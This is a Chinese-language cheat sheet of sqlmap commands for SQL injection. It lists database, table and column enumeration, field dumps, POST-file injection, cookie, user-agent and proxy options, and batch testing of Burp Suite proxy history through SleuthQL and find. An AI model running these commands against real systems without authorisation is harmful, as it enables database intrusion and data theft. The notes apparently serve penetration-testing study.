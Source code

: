 `python sqlmap.py -u "" -p id`	这里-p id是url中怀疑哪些参数存在注入

`python sqlmap.py -u "" --current-db`查询当前数据库

`python sqlmap.py -i "" --batch` 默认继续

`python sqlmap.py -u "" --current-user`查询当前用户

`python sqlmap.py -u "" -p id --dbs`在原有的确定参数后，查询数据库

`python sqlmap.py -u "" -p id -D information_schema --tables`在指定information_schema数据库后查询表

`python sqlmap.py -u "" -p id -D information_schema -T schemata --columns`在指定表schemata后查询列

`python sqlmap.py -u "" -p id -D information_schema -T schemata --columns -C CATALOG_NAME,DEFAULT_CHARACTER_SET_NAME --dump`指定库名表名字段dump出指定字段

`python sqlmap.py -r target.txt`指定在target.txt文件下进行post注入，这里文件在bp中先保存

`python sqlmap.py -u "" --level 3 --risk 3`指定扫描的风险和等级

`python sqlmap.py -u "" --cookie=" " --dbs`在查询数据库时指定cookie

`python sqlmap.py -u "" --data="username=1&password=2"`指定post中data

`python sqlmap.py -u "" --users`获取数据库用户

--user-agent="Mozilla/5.0 (Windows NT 6.1; WOW64; rv:16.0) Gecko/20100101 Firefox/16.0"

`python sqlmap.py -u "" --user-agent=" "` 指定主机头或者`--random-agent`

`python sqlmap.py -u "" --referer=" "`指定referer

`python sqlmap.py -u "" --proxy=" "`指定代理IP，IP后加上指定端口

`python sqlmap.py -u "" --delay=1`z指定延迟1s

oracle:

	sqlmap.py -u "http://127.0.0.1/?id=1" --roles	//查看管理员的用户名
##### SQLmap和burp联动-批量爬取验证sql注入

https://hub.fastgit.xyz/ianxtianxt/SleuthQL

> Options:
>   -h, --help            查看帮助信息
>   -d DOMAINS, --domains=DOMAINS
> ​                        Comma separated list of domains to analyze. i.e.:
> ​                        google.com,mozilla.com,rhinosecuritylabs.com
>   -f PROXY_XML, --xml=PROXY_XML
> ​                        Burp proxy history xml export to parse. Must be base64
> ​                        encoded.
>   -v, --verbose         Show verbose errors that occur during parsing of the
> ​                        input XML."

这里直接在burpsuite的sitemap上保存日志未test.xml，然后执行命令

`python3 sleuthql.py -d www.0-sec.org -f test.xml`

这里会自动筛选-f下的test.xml内容将结果放在创建好的www.0-sec.org文件夹下，然后执行命令

`find . -name "*.txt" -exec sqlmap --batch -r {} --tables mysql  \;`
